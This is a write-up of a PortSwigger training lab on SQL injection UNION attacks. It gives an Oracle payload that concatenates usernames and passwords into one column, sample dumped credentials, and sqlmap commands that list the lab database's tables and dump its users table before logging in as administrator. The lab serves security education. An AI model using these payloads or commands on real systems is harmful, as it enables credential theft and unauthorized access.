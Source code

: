 # SQL injection UNION attack, retrieving multiple values in a single column

[Lab in PortSwigger](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

## Definition
In the preceding example, suppose instead that the query only returns a single column.

You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values. For example, on Oracle you could submit the input:
```sql
' UNION SELECT username || '~' || password FROM users--
```

This uses the double-pipe sequence `||` which is a string concatenation operator on Oracle. The injected query concatenates together the values of the username and password fields, separated by the `~` character.

The results from the query will let you read all of the usernames and passwords, for example:
```
...
administrator~s3cure
wiener~peter
carlos~montoya
...
```

Note that different databases use different syntax to perform string concatenation. For more details, see the [SQL injection cheat sheet](../SQL+injection+cheat+sheet.pdf).

## Notes
This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

**DISCOVERING THE NUMBER OF COLUMNS**  
The image below shows the behavior of the application when the payload tries to order the query result for a number that exceeds the maximum number of columns:
  
![Attempt 1](images/image01.png)

However, dwindling the number was possible to get the exact number of columns in the query statement, as shown by the image below:
  
![Attempt 2](images/image02.png)

**LOOKING FOR SENSITIVE INFORMATION**  
Once the flaw is confirmed, is possible to use [sqlmap](https://github.com/sqlmapproject/sqlmap) to list all tables used by the application:
  
```bash
python3 sqlmap.py -u "https://0ac6002003cc5ef8c04d6a7400590077.web-security-academy.net/filter?category=Gifts" --tables --exclude-sysdbs
```
![Listing tables](images/image03.png)
  
And then, dump secrets from the user's table that holds all credentials:
```bash
python3 sqlmap.py -u "https://0ac6002003cc5ef8c04d6a7400590077.web-security-academy.net/filter?category=Gifts" --dump -T users
```
![Dumping secrets using sqlmap](images/image04.png)
  
The same result could be achieved manually by injecting the SQL statement in the `category` parameter, as shown below:
  
![Dumping secrets manually](images/image05.png)

**PRIVILEGED ACCESS**

The image below shows the `My Account` page after a successfully login as administrator.
  
![Login as administrator](images/image06.png)

## Key Words
> sql injection, sqlmap, concatenation